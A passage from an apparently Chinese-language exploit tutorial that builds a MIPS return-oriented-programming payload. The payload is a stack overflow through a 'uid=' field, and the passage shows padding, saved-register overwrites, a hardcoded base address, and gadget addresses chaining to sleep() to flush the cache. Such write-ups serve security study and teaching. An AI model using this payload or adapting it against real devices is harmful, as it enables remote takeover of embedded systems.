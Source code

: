 ```
padding += 'a' * 4                              # s3

padding += 'a' * 4                              # s4

padding += 'a' * 4                              # s5

padding += 'a' * 4                              # s6

padding += 'a' * 4                              # s7

padding += 'a' * 4                              # fp



rop2 = 0x00057E50

payload = padding + p32(base_addr + rop2)
```

接着使用 mipsrop.tail()，准备填充 ra 寄存器

[![](https://p5.ssl.qhimg.com/t01cb230b0f4bbc058d.png)](https://p5.ssl.qhimg.com/t01cb230b0f4bbc058d.png)

在指令 0x0003E528 处，可以看到 sp 和 ra 寄存器的距离为 0x24，所以这里的填充为 0x24，后面的四个字节就是 ra 寄存器的值（给 ra 寄存器赋值）

.text:0003E528                 lw      $ra, 0x28+var_4($sp)

这里需要跳转到 sleep 函数去执行，**所以 s2 寄存器就填充为 sleep 函数的地址，ra 寄存器填充为下一个 gadget 的地址**，这样就可以达到在执行完 sleep 函数刷新缓存的同时，执行 jr $ra 跳转到想到的地址。

这时的 payload：

```
base_addr = 0x76738000



sleep_addr = 0x00056BD0

rop1 = 0x0003E524



padding = 'uid=' + 'a' * 973

padding += 'a' * 4                              # s0

padding += p32(base_addr + rop1)                # s1

padding += p32(base_addr + sleep_addr)          # s2

padding += 'a' * 4                              # s3

padding += 'a' * 4                              # s4

padding += 'a' * 4                              # s5

padding += 'a' * 4                              # s6

padding += 'a' * 4                              # s7

padding += 'a' * 4                              # fp



```